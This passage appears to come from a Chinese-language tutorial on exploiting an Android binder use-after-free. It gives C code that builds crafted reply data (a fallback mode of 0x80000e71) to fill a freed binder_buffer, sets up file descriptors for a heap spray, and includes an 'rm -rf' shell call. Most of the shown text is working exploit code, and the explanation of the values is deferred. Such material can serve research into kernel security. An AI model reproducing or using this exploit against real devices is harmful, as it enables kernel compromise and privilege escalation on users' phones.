 ```
status_t init_reply_data()
{
	setDataSource();
	AudioPlaybackRate rate;
	rate.mSpeed = 1;
	rate.mPitch = 1;
	rate.mStretchMode = (AudioTimestretchStretchMode)0;
	rate.mFallbackMode = (AudioTimestretchFallbackMode)0x80000e71;
        return mediaPlayer->setPlaybackSettings(rate);

}

sp<IMediaPlayerService> getMediaPlayer()
{
	sp<IServiceManager> sm = defaultServiceManager();
	String16 name = String16("media.player"); 
	sp<IBinder> service = sm->checkService(name);
	sp<IMediaPlayerService> mediaService = interface_cast<IMediaPlayerService>(service);

	return mediaService;

}


```

初始化 bc_reply 要传的数据就是 1，1，0，0x80000e71，在 bc_reply 时调用 bc_transaction, 对于 uaf 的 binder_buffer->data copy_from_user, 关于为什么传这个些数据，涉及到 kasm 攻击方法，等会再讲

```
void init_fd_heap_spray()
{
	const char * path = "/data/local/tmp/test_dir/abcd.txt";
        fd_heap_spray = open(path, O_WRONLY);
	if (fd_heap_spray < 0)
	{
		printf("[-] fd_heap_spray failed\n");
	}
}

void create_test_dir()
{
    	system("touch /data/local/tmp/test_dir/fffdfffdfffdfffd");
	system("touch /data/local/tmp/test_dir/abcd.txt");
	fd_guard_heap = open("/data/local/tmp/test_dir/fffdfffdfffdfffd", O_WRONLY); 
	if (fd_guard_heap < 0)
	{
		printf("[-] fd_guard_heap failed\n");
	}
	init_fd_heap_spray();
}

void init_test_dir()
{
	memset(guardBuffer, 0 ,1000);
	system("rm -rf /data/local/tmp/test_dir ; mkdir test_dir");
	create_test_dir();
	begin_watch();
}

```
